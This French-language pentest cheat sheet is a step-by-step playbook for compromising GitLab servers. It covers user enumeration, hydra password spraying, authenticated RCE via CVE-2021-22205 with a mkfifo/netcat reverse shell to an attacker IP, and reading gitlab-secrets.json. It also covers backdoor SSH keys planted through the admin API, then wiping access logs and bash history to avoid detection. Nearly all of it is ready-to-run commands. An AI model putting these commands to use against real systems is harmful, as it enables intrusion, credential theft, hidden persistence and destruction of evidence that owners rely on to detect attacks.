

## Reconnaissance initiale (Fingerprinting de version)

L'identification précise de la version de **GitLab** est une étape préalable indispensable pour éviter le crash des services lors de l'exécution d'exploits.

> [!warning]
> Vérifier la version exacte de **GitLab** avant de lancer un exploit **RCE** pour éviter le crash du service.

```bash
# Identification via les headers HTTP
curl -I http://gitlab.target.local/

# Identification via le fichier de version (si accessible)
curl -s http://gitlab.target.local/help | grep "GitLab Community Edition"
```

## Énumération d’utilisateurs

L'objectif est d'identifier des comptes valides pour des attaques de type **Password Spraying** ou bruteforce.

```bash
# Script GitLab User Enumeration
./gitlab_userenum.sh --url http://gitlab.target.local:8081 --userlist users.txt
```

| Sortie | Signification |
| :--- | :--- |
| `[+] The username root exists!` | Utilisateur valide |
| `[+] The username bob exists!` | Utilisateur valide |

**Note :** **GitLab** retourne un code HTTP 200 pour les utilisateurs valides et 302 pour les utilisateurs inexistants.

## Password Spraying

> [!danger]
> Attention aux politiques de lockout lors du **Password Spraying**.

```bash
# Avec hydra
hydra -L users.txt -P passwords.txt http-post-form \
"/users/sign_in:authenticity_token=token&user[login]=^USER^&user[password]=^PASS^:Invalid Login"
```

Stratégie de lockout typique : 10 essais infructueux entraînent un blocage de 10 minutes.

## Recherche d’inscription ouverte

Vérifier l'accessibilité de la page d'enregistrement : `http://gitlab.target.local/users/sign_up`. Si l'inscription est ouverte, la création d'un compte permet d'écéder aux vecteurs d'attaque authentifiés.

## RCE Authentifiée

Exploitation de vulnérabilités sur des versions spécifiques, comme la **CVE-2021-22205** (via **ExifTool**).

```bash
python3 gitlab_13_10_2_rce.py \
  -t http://gitlab.target.local:8081 \
  -u your_user -p your_pass \
  -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc YOUR_IP 8443 >/tmp/f'
```

**Listener :**
```bash
nc -lnvp 8443
```

**Résultat :**
```bash
git@app:~$ id
uid=996(git) gid=997(git) groups=997(git)
```

## Fuite de données / Info Disclosure

L'analyse des projets publics ou mal configurés peut révéler des secrets (tokens **AWS**, **API**, etc.).

```bash
# Cloner tous les projets visibles
git clone http://gitlab.target.local/username/project.git

# Chercher des secrets
trufflehog --regex --entropy=True project.git
```

## Vol de mail via tickets

Si **GitLab** est configuré avec un module Helpdesk, l'utilisation d'une adresse `support@` permet de réceptionner les mails d'activation, les jetons de réinitialisation de mot de passe ou les jetons d'accès.

## Autres failles connues

| Version concernée | CVE | Type | Exploit |
| :--- | :--- | :--- | :--- |
| 11.4 – 12.4 | CVE-2019-14933 | RCE | Snippet injection |
| 13.10.2 et - | CVE-2021-22205 | RCE via **ExifTool** | exploit disponible |
| 14.7.2 et - | CVE-2022-0735 | Password Reset Token | Reset admin |
| 14.x / 15.x | CVE-2022-2185 | RCE CI Runner | **GitLab** Runner attack |

## Analyse des configurations CI/CD (GitLab CI)

> [!warning]
> La compromission d'un runner **GitLab** permet souvent un mouvement latéral vers d'autres projets ou serveurs **CI/CD**.

L'analyse du fichier `.gitlab-ci.yml` permet souvent de découvrir des variables d'environnement sensibles ou des chemins vers des serveurs de build.

```bash
# Lister les runners enregistrés
gitlab-rails runner "puts Runner.all.to_json"

# Vérifier les variables CI/CD exposées dans les jobs
cat .gitlab-ci.yml | grep -E "SECRET|TOKEN|PASSWORD"
```

## Escalade de privilèges locale (PrivEsc)

Une fois un shell obtenu en tant qu'utilisateur `git`, l'escalade vers `root` passe souvent par la lecture des fichiers de configuration ou l'exploitation de binaires SUID.

```bash
# Vérification des fichiers de configuration sensibles
cat /etc/gitlab/gitlab-secrets.json

# Vérification des droits sudo
sudo -l

# Exploitation potentielle de git-shell ou scripts de backup
ls -la /opt/gitlab/bin/
```

> [!tip]
> Le fichier `secrets.yml` est critique pour le déchiffrement des tokens stockés en base de données.

## Persistance

La persistance peut être assurée via l'injection de clés SSH dans le profil utilisateur ou via des webhooks malveillants.

```bash
# Ajouter une clé SSH via l'API (si token admin obtenu)
curl --header "PRIVATE-TOKEN: <admin_token>" -X POST "http://gitlab.target.local/api/v4/user/keys" \
     --data "title=backdoor&key=$(cat ~/.ssh/id_rsa.pub)"
```

## Nettoyage des traces

Il est impératif de supprimer les fichiers temporaires et les logs d'accès pour éviter la détection.

```bash
# Suppression des logs d'accès
echo "" > /var/log/gitlab/nginx/access.log

# Suppression des scripts d'exploitation
rm /tmp/gitlab_exploit.py

# Nettoyage de l'historique bash
history -c && exit
```

## Contournements & conseils de post-exploitation

*   Accès interface admin : `/admin`
*   Recherche de tokens **API** : `~/.gitlab/` ou `config/secrets.yml`
*   Recherche de runners pour compromission de supply chain.

---
*Sujets liés : [[Enumeration]], [[Hydra]], [[Linux]], [[Python]], [[Reverse Shell]], [[Web]], [[Webshells]]*
```